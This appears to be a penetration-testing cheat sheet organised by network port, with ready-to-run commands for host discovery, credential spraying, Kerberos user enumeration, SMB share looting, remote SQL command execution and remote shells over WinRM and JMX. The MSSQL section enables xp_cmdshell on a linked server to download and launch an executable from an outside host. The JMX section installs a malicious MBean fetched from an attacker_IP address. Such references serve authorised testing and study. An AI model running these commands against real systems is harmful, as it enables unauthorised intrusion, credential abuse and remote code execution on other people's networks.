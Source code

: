 ## Initial Access  
**Discover the hosts on the network (Linux) :**   
`for i in {1..255};do ping -c 1 192.168.110.$i > /dev/null;if [ $? -eq 0];then echo 192.168.110.$i;fi;done`   
`nmap -Pn -p- -v -oA network_scan 192.168.110.1-255`  
For large networks with hosts answering to ping (ping sweep scan):   
`nmap -v -sn -oA hosts_list 192.168.0.0/16`   
Then filter hosts with grep & awk and launch the scan only on alive hosts.     
  
**Discover the hosts on the network (Windows) :**     
 `powershell $ping=New-Object System.Net.Networkinformation.Ping ; 1..254 | % { $ping.send("10.9.10.$_", 1) | where status -ne 'TimedOut' | select Address | fl * }`  
 From an unprivileged account:  Use advanced portscan :   https://www.advanced-port-scanner.com/  
     

**Discover the hosts on the network (Windows) :**
Use PowerSploit's function `Invoke-Portscan` : https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/Invoke-Portscan.ps1    
`. .\Invoke-Portscan.ps1`  
`Invoke-Portscan -TopPorts 1000 -Hosts 192.168.210.0/24 -oA results`


**Scan all ports on a host and execute nmap scripts (Linux & Windows):**   
`nmap -A -p- -v 192.168.110.55`  

**Spray creds on several hosts (Linux & Windows):**   
`crackmapexec smb <host> -d <domain> -u <username> -p <password> -H <hash> --shares`  
`crackmapexec winrm 192.168.110.0/24 -u Tom -H '8af1903d3c80c3552a84b6ba299db2ea' --local-auth`  
  
**Unknown obsolete service:**  
Display known exploits and their EDB-ID : `searchsploit <service_name> --id`  
Copy the exploit to the current directory : `searchsploit <EDB-ID> -m .`  
    
## Port 88 - Kerberos  
Valid usernames can be discovered by brute force against a Kerberos service. When an invalid username is requested the server will respond using the Kerberos error code KRB5KDC_ERR_C_PRINCIPAL_UNKNOWN, allowing us to determine that the user name was invalid. Valid user names will illicit either the TGT in a AS-REP response or the error KRB5KDC_ERR_PREAUTH_REQUIRED, signaling that the user is required to perform pre authentication.   
<br/>
**Windows - User enumeration:**  
`Rubeus.exe brute /users:<userlist.txt> /domain:spookysec.local /password:yolo /dc:<dc_ip>`  
(One fake password is provided so the accounts are not bruteforced)  
  
**Linux - User enumeration:**  
`./kerbrute_linux_amd64 userenum --domain timelapse.htb --dc 10.10.11.152 /usr/share/wordlists/SecLists/Usernames/xato-net-10-million-usernames.txt`     
<br/>
## Port 135 - MSRPC  
TODO  
<br/>
## Port 445 - SMB
**List SMB shares (python, Linux & Windows):**  
`smbmap -u "Guest" -H "10.10.11.152"`  
`smbclient -U ".\Guest" -L //10.10.11.152`   
    
**Browse SMB shares (python, Linux & Windows):**  
`smbmap -u "Guest" -H "10.10.11.152" -r "IPC$"`   
`smbmap -u 'john' -p 'P@ssw0rd123' -d domain.local -H "192.168.110.10" -r "IPC$"`  
      
**Download SMB files (python, Linux & Windows):**     
`smbmap -u "guest" -H 10.10.11.152 --download "Shares\Dev\winrm_backup.zip"`    
<br/> 
## Ports 389,636,3268,3269 - LDAP  
`nmap -n -sV -Pn --script "ldap* and not brute" 10.10.11.174`    
  
ldapsearch query:  
`ldapsearch -x -D "cn=leperche,ou=User_Accounts,ou=Users,ou=_NewYork,ou=_AMER,dc=domain,dc=net" -H ldap://YYYYYDC01.domain.net -b "OU=Computers,OU=_NewYork,OU=_AMER,DC=domain,DC=net" -W -E pr=10000/noprompt | tee output-computers.txt`  
 <br/>   
   
 ## Port 1433 - MSSQL
 `PowerUpSQL.ps1` can be used : https://github.com/NetSPI/PowerUpSQL     
 `PowerUpSQL.ps1` cheatsheet : https://github.com/NetSPI/PowerUpSQL  
 Check for vulnerabilities:  
 ```
 Invoke-SQLAudit -Instance 192.168.210.15 -Username 'user' -Password 'pass'
 ```

 The native Windows tool osql can also be used:  
 - Enable xp_cmdshell on a remote instance linked to the local instance to execute system commands remotely:  
   ```osql -E -S "WEBSRV" -Q "EXECUTE('EXEC sp_configure "xp_cmdshell", "1"') AT [sqlsrv.lab.local];"```  
   ```osql -E -S "WEBSRV" -Q "EXECUTE('RECONFIGURE') AT [sqlsrv.lab.local];" ```  
  
- Execute commands:  
  ```osql -E -S "WEBSRV" -Q "EXECUTE('xp_cmdshell ''powershell.exe iwr -Uri http://10.10.16.20:8080/bc2.exe -OutFile c:\Temp\leperche\bc2.exe''') AT [sqlsrv.lab.local];" ```  
  ```osql -E -S "WEBSRV" -Q "EXECUTE('xp_cmdshell ''powershell.exe -c Start-Process -NoNewWindow -FilePath C:\Temp\leperche\bc2.exe''') AT [sqlsrv.lab.local];"```      
        
  
    
## Port 3306 - MySQL   
`PowerUpSQL.ps1` can be used : https://github.com/NetSPI/PowerUpSQL    
    
**Connect to the MySQL service:**  
`mysql -u <user> -p -h localhost`  
  
**Once connected to the DB:**    
Enumerate the databases:  
`SHOW DATABASES;` 
  
Select a database:  
`use <database>`
    
List the database tables:  
`SHOW TABLES;`  
  
See the content of the 'users' table:  
`DESCRIBE users;`  
  
Extract data (password hashes for example) from the 'users' table:  
`SELECT * FROM users;`   
  
  
## Port 3389 - RDP  
From Linux:   
```
xfreerdp -u john -p 'Habile@123!' -v 192.168.210.15
```
      
## Ports 5985,5986 - WinRM  
Using Evil-WinRM (Linux & Windows) :    
`gem install evil-winrm`  
`evil-winrm –i <host> –u <username> [-p <password>] [-H <hash>]`  
   
Using WinRS.exe (native PowerShell client):  
`$ winrs /r:<host> /u:<domain\username> /p:<password> <command>`  
  
Using native PowerShell :    
`PS> $creds = (New-Object System.Management.Automation.PSCredential('admin',(ConvertTo-SecureString 's3cure_PaSsw0rd!' -AsPlainText -Force)))`   
`PS> Enter-PsSession -ComputerName 10.10.11.174 -Credential $creds`   
`PS> Invoke-Command -computername support.htb -ScriptBlock {ipconfig /all} [-credential DOMAIN\username]`   
    
  
## Port XXXX - Java RMI - JMX
**Command execution:**  
Use mjet.py : https://github.com/mogwailabs/mjet   
JMX is used to manage remote Java resources such as MBeans. If no authentication is configured, it is possible to list the differents MBeans:  
Install jdk and use the `jconsole` binary in `\Java\jdk-18.0.2\bin\jconsole.exe` to access the service.  
it is thus possible to install a malicious MBean and execute commands:  
  
Example commands : `jython mjet.py target.test.com 18051 install tonkabean http://<attacker_IP>:6666 6666`  
`jython mjet.py target.test.com 18051 command tonkabean "id"`  
`jython mjet.py target.test.com 18051 shell tonkabean`  
Uninstall the malicious MBean at the end : `jython mjet.py target.test.com 18051 uninstall`    

## Exploitation 
**For web services :**   
TODO Metasploit web_delivery : `TODO`   
  
  
